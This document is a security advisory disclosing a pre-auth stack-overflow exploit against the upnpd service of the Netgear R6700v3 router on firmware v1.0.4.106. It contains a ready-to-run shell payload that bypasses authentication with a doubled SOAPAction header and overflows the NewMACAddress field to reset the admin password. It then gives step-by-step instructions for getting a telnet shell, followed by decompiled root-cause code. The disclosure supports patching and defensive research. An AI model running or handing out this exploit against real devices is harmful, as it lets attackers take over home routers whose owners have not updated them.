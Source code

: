 # Pre-auth LAN RCE in Netgear R6700v3 v1.0.4.106

Disclosed is a pre-auth LAN RCE based on a stack overflow in the router from Netgear, model AC1750 R6700v3. This targets the firmware v1.0.4.106 and the vulnerable target binary is upnpd. This particular exploit against the vulnerability will not work against newer firmware versions.

## Details

The vulnerability is in the handling of requests to upnp, specifically a SOAPAction for setting a MAC address. This SOAPAction requires usually authentication, but as shown previously [1] the authentication can be bypassed by adding two SOAPActions `urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLogin` and `SOAPAction: urn:NETGEAR-ROUTER:service:DeviceInfo:1#SetDeviceInfoByMAC` in order to bypass the authentication logic.

A long string provided in the `NewMACAddress` tag causes the buffer overflow. Details for this can be found below in the root cause analysis.

The following request, performs similar to [1] a password reset using a single gadget by jumping to the procedure `acosNvramConfig_set`, which is located at `0x39b30` in v1.0.4.106. The input password to acosNvramConfig_set will be `password.

```
BODY='<?xml version="1.0"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<SOAP-ENV:Body>
<NewMACAddress>'"$(printf 'a%.0s' {0..1016})"'\x30\x9b\x03</NewMACAddress>
</SOAP-ENV:Body>
</SOAP-ENV:Envelope>'
BODY_LEN=$(echo -n ${BODY} | wc -c )
echo -ne "POST soap/server_sa HTTP/1.0\r\nHost: 192.168.1.1:5000\r\nContent-Type: application/x-www-form-urlencoded\r\nSOAPAction: urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLogin\r\nSOAPAction: urn:NETGEAR-ROUTER:service:DeviceInfo:1#SetDeviceInfoByMAC\r\nContent-Length: ${BODY_LEN}\r\n\r\n${BODY}" | nc -i 1 192.168.1.1 5000
```

Next login to the web interface with the user admin and password `password`. Change the password, and run the well-known telnetenable tool [2] in order to open the telnet port and login to the router for shell access.

Summary:

1) Run the request with the exploit payload to reset the password
2) Login to the web interface with user admin and password 'password'
3) Run telnetenable to gain shell access: ./telnetenable <router_ip> <router_lan_port_mac> admin <new_password>

## Root cause analysis
The root cause exists in the function at address 0x3b8f8 in v1.0.4.106. The relevant pseudo-code is:
```
   ..
   .
   v61 = stristr(v13, "NewMACAddress");
    if ( v61 )
    {
      v62 = (const char *)(stristr(v13, "NewMACAddress xsi:type=\"xsd:string\">") ? v61 + 36 : v61 + 14);
      strncpy(byte_DB00C, "", 0x13u);
      v63 = stristr(v13, "</NewMACAddress>");
      if ( v63 )
      {
        v64 = v63 - (_DWORD)v62;
        strncpy(byte_DB00C, "", 0x13u);
        strncpy(byte_DB00C, v62, v64);
        byte_DB00C[v64] = 0;
        sub_C310(3, "NewMACAddress = %s\n", byte_DB00C);
      }
    }
    .
    ..
```
which performs a copy to a memory location without any size limitations in `strncpy(byte_DB00C, v62, v64)`.

## References
[1] https://github.com/rdomanski/Exploits_and_Advisories/blob/master/advisories/Pwn2Own/Tokyo2019/tokyo_drift.md

[2] https://github.com/insanid/NetgearTelnetEnable
